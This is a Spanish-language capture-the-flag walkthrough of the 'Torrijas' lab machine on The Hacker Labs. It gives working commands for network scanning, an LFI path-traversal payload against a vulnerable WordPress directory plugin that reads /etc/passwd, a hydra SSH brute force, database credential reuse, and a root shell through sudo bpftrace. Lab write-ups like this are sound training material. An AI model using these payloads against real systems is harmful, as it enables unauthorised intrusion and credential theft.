# Torrijas - The Hacker Labs (Fácil)

Torrijas es una máquina Linux de la plataforma The Hacker Labs, de dificultad fácil. 

- [Reconocimiento](#reconocimiento)
- [Enumeración](#enumeración)
- [Explotación](#explotación)
- [Elevación de privilegios](#elevación-de-privilegios)

## Reconocimiento

Inicialmente hacemos un escaner para buscar hosts en el rango de IPs de la interfaz `enp0s3` con el comando:

`sudo arp-scan -I enp0s3 -l`

Vemos que nos detecta la ip `10.0.2.26`



Hacemos ping, y viendo que la ttl es 64 suponemos que la máquina es Linux.



Hacemos un escaner con Nmap para ver que puertos abiertos hay en la máquina.

`nmap -p- -vvv --open -T4 -sS -Pn -n 10.0.2.26 -oN open-ports`

Vemos que estan abiertos los puertos 22, 80 y 3306



## Enumeración

Hacemos un escáner con Nmap para ver los servicios y versiones que corren en los puertos. 

`nmap -p 22,80,3306 -sVC -Pn -n 10.0.2.26 -oN scan`

Podemos ver que en el puerto 22 corre un OpenSSH 9.2p1, en el 80 un Apache httpd 2.4.62 y en el 3306 un MariaDB 5.5.5.5

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-13 11:37 CEST
Nmap scan report for 10.0.2.26
Host is up (0.0024s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 af:79:a1:39:80:45:fb:b7:cb:86:fd:8b:62:69:4a:64 (ECDSA)
|_  256 6d:d4:9d:ac:0b:f0:a1:88:66:b4:ff:f6:42:bb:f2:e5 (ED25519)
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: torrija.thl
|_http-server-header: Apache/2.4.62 (Debian)
3306/tcp open  mysql   MySQL 5.5.5-10.11.6-MariaDB-0+deb12u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.6-MariaDB-0+deb12u1
|   Thread ID: 44376
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, Speaks41ProtocolOld, LongColumnFlag, SupportsTransactions, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, InteractiveClient, ConnectWithDatabase, Speaks41ProtocolNew, ODBCClient, SupportsLoadDataLocal, IgnoreSigpipes, FoundRows, SupportsCompression, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: W|-f=;SlG\ym9pJb,TE:
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.62 seconds
```

Lo primero que vamos a hacer es fuzzing con la herramienta ffuf. Para ver todos los directorios y archivos .html en la página.

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .html -u "http://torrija.thl/FUZZ"
```

Vemos que hay un directorio /wordpress



Entramos en la página y vemos un wordpress.



Ejecutamos el comando `wpscan` y vemos que tenemos acceso al directorio `/wp-content/uploads`

`wpscan --url http://torrija.thl/wordpress`

http://torrija.thl/wordpress/wp-content/uploads/

Entrando en `/uploads/` vemos un directory listing que contiene un archivo `w2dc-plugin.css`



Buscando sobre este plugin podemos ver que tiene una versión vulnerable y he encontrado una PoC:
https://github.com/Nxploited/CVE-2024-3673/tree/main

Viendo el código podemos ver que lo primero que hace es comprobar la versión del plugin dentro de http://torrija.thl/wordpress/wp-content/plugins/web-directory-free/readme.txt y si la version es igual a `1.7.2` es vulnerable.





Vemos que efectivamente la versión del plugin es `1.7.2` por lo tanto es vulnerable



Si vemos la función `exploit_vulnerability()` lo que hace es explotar una vulnerabilidad LFI, haciendo un post a `{url}/wp-admin/admin-ajax.php` y en el body se puede introducir un archivo para leer.



Hacemos curl para probarlo con `/etc/passwd` y efectivamente devuelve el contenido del archivo.

```
curl -X POST http://torrija.thl/wordpress/wp-admin/admin-ajax.php --data 'from_set_ajax=1&action=w2dc_controller_request&template=../../../../../../../../etc/passwd'
```



## Explotación

En `/etc/passwd` vemos un usuario `premo` por lo que con `hydra` hacemos un ataque por fuerza bruta al servicio SSH.

`hydra -l premo -P /usr/share/wordlists/rockyou.txt -t 64 ssh://10.0.2.26 -I`



Las credenciales son `premo:cassandra`

Nos conectamos por SSH:



Aqui está el archivo `user.txt`



## Elevación de privilegios

Dentro de `/var/www/html/wordpress/wp-config.php` podemos ver las credenciales a la base de datos MariaDB. Aunque viendo la base de datos no hay nada relevante.



Dentro de `/home/premo` leemos el archivo `.mysql_history` en el que vemos una base de datos "Torrijas" por lo que supongo que accediendo a la base de datos con un usuario con mas permisos que `admin` podría tener acceso.



Pruebo a conectarme como root con la misma contraseña que admin y consigo conectarme. Entramos a la base de datos "Torrijas"



Aqui están las credenciales de `primo`



Con `su primo` me cambio al usuario primo. Ejecuto `sudo -l` para ver si tiene permisos sudo. Vemos que puede ejecutar el binario `/usr/bin/bpftrace` como usuario root



Si ejecutamos este comando podemos abrir una shell como usuario root.

`sudo bpftrace -c /bin/sh -e 'END {exit()}'`



Aqui esta el archivo `root.txt`

